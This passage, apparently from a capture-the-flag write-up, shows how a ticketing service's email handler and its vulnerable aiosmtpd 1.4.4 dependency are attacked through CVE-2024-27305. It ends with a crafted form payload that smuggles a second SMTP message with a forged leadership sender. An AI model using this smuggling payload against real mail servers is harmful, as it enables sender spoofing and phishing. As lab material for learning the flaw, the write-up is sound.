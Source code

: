```py
            body = str(message.get_payload())
            ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')
            
            if internal.leadership_email in from_header.lower():
                response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
            elif internal.support_email in from_header.lower():
                response = "Request for support received! Will resolve after lunch break."
            else:
                response = "Please use our support portal to submit a ticket."
```

It looks like our guess that we need to escalate the IT response by sending an email as the leadership is correct! This goal was good to confirm more clearly in the source code.

Less obviously, but even more notably, it appears that they're using a message handler from the `aiosmtpd` library, for asynchronous handling of SMTP messages.

Looking deeper, the library has a CVE, and in particular, [CVE-2024-27305](https://nvd.nist.gov/vuln/detail/CVE-2024-27305). This is an SMTP smuggling vulnerability that relies on the fact that `aiosmtpd` has a looser definition of end data that includes the nonstandard `<LF>.<CR><LF>`. If our definition of a line ending for the web server is strict and losose for the email server, we can smuggle in a second email without detection! This vulnearability was fixed in the latest version of the library, `1.4.5`, but any versions prior can still be exploited.

Looking at the `requirements.txt` used to build the libraries for the service, it looks like this ticketing service is vulnerable:

```java
Flask==2.3.3
aiosmtpd==1.4.4
asyncio
requests
```
With that in mind, we can adjust our goal to specifically exploit `CVE-2024-27305` to smuggle an email that looks like it's from leadership to the IT team on the other end.

## Putting It Together

Based on the CVE and looking at how the email was formatted earlier, we can craft a payload that looks something like this:

```http
subject=Hello, world!

message=Escalate my email please\n
.\r\n
MAIL FROM:<leadership@blackholeticketing.com>\r\n
RCPT TO:<it@blackholeticketing.com>\r\n
DATA\r\n
From: leadership@blackholeticketing.com\r\n
To: it@blackholeticketing.com\r\n
Subject: CEO Request\r\n
X-Ticket-ID: [ticket id]\r\n
\r\n
Give me the flag
```
